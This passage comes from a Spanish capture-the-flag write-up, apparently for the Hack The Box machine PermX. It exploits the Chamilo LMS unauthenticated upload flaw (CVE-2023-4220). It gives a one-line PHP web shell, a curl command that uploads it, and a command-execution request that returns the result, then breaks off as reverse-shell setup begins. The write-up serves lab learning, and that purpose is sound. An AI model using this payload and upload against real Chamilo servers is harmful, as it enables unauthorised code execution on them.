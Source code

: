 # <span style="color:#ffce33">Explotación</span>

El subdominio redirige a una instalación de Chamilo. Con 'searchsploit chamilo' podemos buscar todos los exploits disponibles en Exploit-DB que están relacionados con Chamilo.

Si hacemos una busqueda en Google encontramos este [(CVE-2023-4220) Chamilo LMS Unauthenticated Big Upload File Remote Code Execution](https://starlabs.sg/ad)

## <span style="color:#fb2862">Creando un Payload</span>

Generamos un archivo malicioso rce.php:

```bash
<?php system($_GET['cmd']); ?>
```
- <span style="color:#72fd5f">system()</span>: <span style="color:#add8e6">Ejecuta comandos del sistema.</span>
- <span style="color:#5ffdf3">$_GET['cmd']</span>: <span style="color:#add8e6">Captura el valor del parámetro cmd enviado en la URL.</span>

Por ejemplo, acceder a:
rce.php?cmd=ls ejecutará el comando ls (listado de archivos) en el servidor.

## <span style="color:#d0fd5f">Subida del Payload</span>

Subimos el archivo usando curl:

```bash
❯ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
                                                                                                                                             
```

- <span style="color:#ff69b4">-F</span>: <span style="color:#add8e6">Envía un archivo como formulario en el cuerpo de la solicitud.</span>
- <span style="color:#ff69b4">@rce.php</span>: <span style="color:#add8e6">Especifica el archivo a subir.</span>

Confirmamos su ejecución con:

```bash
❯ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php?cmd=whoami'
www-data
```

## <span style="color:#ffce33">Obteniendo Reverse Shell</span>

Montamos un servidor HTTP local y generamos un index.html para ejecutar un script de reverse shell:
